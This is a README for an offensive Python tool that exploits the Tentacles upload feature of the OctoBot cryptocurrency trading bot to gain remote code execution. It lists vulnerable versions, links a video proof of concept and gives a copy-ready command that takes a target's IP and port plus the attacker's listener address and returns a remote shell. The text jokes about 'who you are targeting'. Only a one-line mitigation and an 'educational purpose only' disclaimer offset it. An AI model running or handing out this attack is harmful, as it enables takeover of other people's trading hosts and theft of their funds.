 
# Sashimi Evil OctoBot Tentacle

Sashimi Evil OctoBot Tentacle is a python script that exploits a vulnerability that lies in the Tentacles upload functionality of the cryptocurrency trading bot [OctoBot](https://octobot.online/) which is designed to be easy to use and customizable. Indeed, this open source trading bot has the particularity of offering to theirs users the possibility to upload their own trading algorithms.

Sashimi Evil OctoBot Tentacle takes advantage of this feature to upload a malicious crafted package that leads to an arbitrary code execution.

![Sahimi Evil OctoBot Tentacle](https://i.ibb.co/M26vLMM/Sashimi-octobot-killer.png)

### Affected versions
All OctoBot  versions until the latest version (0.4.0b12) are vulnerable.
However, this exploit will work from version 0.4.0b3 until version 0.4.1.

### Proof of concept
(PoC Tested on Octobot 0.4.0b10)

[![Video POC Sashimi OctoBot Vulnerability](https://i.ibb.co/7gXHL9q/500px-youtube-social-play.png)](https://www.youtube.com/watch?v=okL0azY1BE4)


### Requirement

* Python 3 (Must already have it if you are OctoBot user :D)
* An OctoBot target host platform. 

### How to use
This script is very simple to use only needs 4 parameters.
* `--RHOST`:  Refers to the IP of the target machine. (OctoBot IP address or hostname)
* `--RPORT`: Refers to the PORT of the target machine. (OctoBot use the port 5001 by default)
* `--LHOST` : Refers to the IP of your machine. (Can be local or external, depend who you are targeting :)
* `--LPORT`: Refers to the open port of your machine. (Must have an open port on your machine.)

Then the command is as follow:
```bash
python3 sashimi.py --RHOST TARGET_IP --RPORT TARGET_PORT --LHOST YOUR_IP --LPORT YOUR_OPEN_PORT
```
Be patient for around 3 min, the time to download, create and upload the malicious Tentacle package, and you should have a remote access to the machine. That's it!

### Mitigation
To protect against this attack, set a password in your OctoBot platform or add an .htpasswd.

### Note
FOR EDUCATIONAL PURPOSE ONLY.
